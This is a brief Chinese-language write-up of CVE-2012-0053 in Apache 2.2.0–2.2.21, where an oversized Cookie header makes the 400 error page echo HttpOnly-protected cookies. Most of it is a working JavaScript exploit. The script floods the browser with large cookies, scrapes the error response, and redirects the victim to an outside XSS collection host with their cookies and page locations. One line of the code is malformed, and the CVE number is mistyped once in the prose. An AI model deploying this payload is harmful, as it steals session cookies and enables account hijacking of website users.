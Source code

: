 # apache获取httponly保护的cookie


CVE-2012-0053

Apache的2.2.0-2.2.21

httponly并不能通过xss去获取，httponly标识就注定了该cookie键值不能被js脚本所获取。但是仍然有办法能获取收到httponly保护的cookie键值。例如Apache的2.2.0-2.2.21版本中的一个漏洞（CVE-2012-005）攻击者可通过给网站植入超大的Cookie，使得HTTP头超过apache的LimitRequestFieldSize（最大请求长度）4192字节，apache便会返回400错误，状态页中就包含了http-only保护的cookies。



```js
#!javascript
function setCookies() {
    /*apache server limit 8192*/
    var str = "";
    for (var i = 0; i < 819; i++) {
        str += "x";
    }
    for (i = 0; i < 10; i++) {
        var cookie = "ray" + i + "=" + str + ";path=/";
        document.cookie = cookie;
    }
}
function parseCookies() {
    if (xhr.readyState === 4 && xhr.status === 400) {
        var content = xhr.responseText.replace(/\r|\n/g, '').match(/<pre>(.+)<\/pre>/);
        content = content[1].replace("Cookie: ", "");
        cookies = content.replace(/ray\d=x+;?/g, '') try {
            var myopener = '';
            myopener = window.parent.openner.location;
            var myparent = '';
            myparent = window.parent.location;
        } catch(err) {
            myopener = '0';
            myparent = '0';
        }
        window.location = 'http://xsser.me/index.php?do=api&id={projectId}&location=' + escape(document.location) + '&toplocation=' + escape(myparent) + '&cookie=' + escape(cookies) + '&opener=' + escape(myopener);
    }
}
setCookies();
var xhr = window.XMLHttpRequest ? new XMLHttpRequest() : window.ActiveXObject ? new ActiveXObject("Microsoft.XMLHTTP") : new XMLHttpRequest();
xhr.onreadystatechange = parseCookies;
xhr.open("POST", "/?" + Math.random(), true);
xhr.send(null);

```

## 资料

http://www.vuln.cn/6129